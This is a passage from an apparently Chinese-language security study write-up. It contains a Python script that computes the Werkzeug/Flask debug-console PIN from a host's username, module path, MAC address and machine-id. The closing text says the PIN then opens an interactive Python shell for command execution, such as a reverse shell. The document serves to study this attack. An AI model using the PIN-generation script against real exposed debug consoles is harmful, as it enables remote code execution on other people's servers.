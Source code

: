 ```
import hashlib
from itertools import chain
probably\_public\_bits = \[
    'Administrator',# username
    'flask.app',# modname
    'Flask',# getattr(app, '\_\_name\_\_', getattr(app.\_\_class\_\_, '\_\_name\_\_'))
    'C:\\Users\\Administrator\\PycharmProjects\\securritystudy\\venv\\lib\\site-packages\\flask\\app.py' # getattr(mod, '\_\_file\_\_', None),
\]

private\_bits = \[
    '106611682152170',# str(uuid.getnode()),  /sys/class/net/ens33/address
    b'6893142a-ab05-4293-86f9-89df10a4361b'# get\_machine\_id(), /etc/machine-id
\]

h = hashlib.md5()
for bit in chain(probably\_public\_bits, private\_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie\_name = '\_\_wzd' + h.hexdigest()\[:20\]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))\[:9\]

rv =None
if rv is None:
    for group\_size in 5, 4, 3:
        if len(num) % group\_size == 0:
            rv = '-'.join(num\[x:x + group\_size\].rjust(group\_size, '0')
                          for x in range(0, len(num), group\_size))
            break
    else:
        rv = num

print(rv)
```

如下图所示：  

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmSAoJSyXqd15icL1hB5xqAxqOKbhJG2FKtGDGOr1fyvuiaMIlwxpribhGV14icnvU6NZ9wcU5GY9hJgA/640?wx_fmt=png)

4、 然后就可以进入交互式的 python shell 进行命令执行。

比如使用 python 进行反弹 shell。
